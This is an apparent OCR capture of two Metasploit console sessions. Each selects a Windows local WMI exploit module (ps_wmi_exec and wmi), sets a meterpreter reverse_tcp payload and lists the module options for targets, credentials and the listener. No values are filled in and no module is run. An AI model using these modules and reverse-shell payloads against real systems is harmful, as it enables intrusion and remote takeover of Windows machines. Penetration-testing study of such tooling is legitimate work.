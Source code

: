 ```
msf > use exploit/windows/local/ps_wmi_exec

msf exploit(windows/local/ps_wmi_exec) > options

Module options (exploit/windows/local/ps_wmi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DOMAIN                     no        Domain or machine name
   PASSWORD                   no        Password to authenticate with
   RHOSTS                     no        Target address range or CIDR identifier
   SESSION                    yes       The session to run this module on
   USERNAME                   no        Username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal
```

```
msf > use exploit/windows/local/wmi

msf exploit(windows/local/wmi) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/wmi) > options

Module options (exploit/windows/local/wmi):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   RHOSTS                                yes       Target address range or CIDR identifier
   ReverseListenerComm                   no        The specific communication channel to use for this listener
   SESSION                               yes       The session to run this module on
   SMBDomain                             no        The Windows domain to use for authentication
   SMBPass                               no        The password for the specified username
   SMBUser                               no        The username to authenticate as
   TIMEOUT              10               yes       Timeout for WMI command in seconds


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
```